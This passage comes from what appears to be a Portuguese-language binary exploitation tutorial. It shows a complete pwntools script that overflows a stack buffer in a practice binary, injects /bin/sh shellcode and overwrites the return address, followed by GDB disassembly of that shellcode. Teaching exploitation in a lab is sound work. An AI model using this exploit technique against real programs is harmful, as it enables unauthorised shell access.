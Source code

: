 ```python
context.arch = 'amd64'
context.os = 'linux'
```

O *script* completo está assim:

```python
#!/usr/bin/env python3

from pwn import *

def logging(msg, value):
    return success(': '.join([msg, hex(value)]))

context.arch = 'amd64'
context.os = 'linux'

p = gdb.debug('./binexp_bof_01', '''
    b *main+104
    continue
    ''')

data = p.recvuntil(b': 0x')
data = p.recvuntil(b'\n')
addr = int(data[:-1], 16)
logging('buffer', addr)

assembly = shellcraft.sh()
shellcode = asm(assembly)
nop = asm(shellcraft.nop())

payload = shellcode
payload += nop * (136 - len(payload))
payload += p64(addr)
p.sendline(payload)

p.interactive()
```

Agora, ao executar o *script*, através do GDB podemos ver o shellcode que será
executado, como planejamos:

```
Breakpoint 1, 0x0000000000401273 in main ()
=> 0x0000000000401273 <main+104>:       c3                      ret
(gdb) ni
0x00007fffe5648b80 in ?? ()
=> 0x00007fffe5648b80:  6a 68                   push   $0x68
(gdb) x/20i $rip
=> 0x7fffe5648b80:      push   $0x68
   0x7fffe5648b82:      movabs $0x732f2f2f6e69622f,%rax
   0x7fffe5648b8c:      push   %rax
   0x7fffe5648b8d:      mov    %rsp,%rdi
   0x7fffe5648b90:      push   $0x1016972
   0x7fffe5648b95:      xorl   $0x1010101,(%rsp)
   0x7fffe5648b9c:      xor    %esi,%esi
   0x7fffe5648b9e:      push   %rsi
   0x7fffe5648b9f:      push   $0x8
   0x7fffe5648ba1:      pop    %rsi
   0x7fffe5648ba2:      add    %rsp,%rsi
   0x7fffe5648ba5:      push   %rsi
   0x7fffe5648ba6:      mov    %rsp,%rsi
   0x7fffe5648ba9:      xor    %edx,%edx
   0x7fffe5648bab:      push   $0x3b
   0x7fffe5648bad:      pop    %rax
```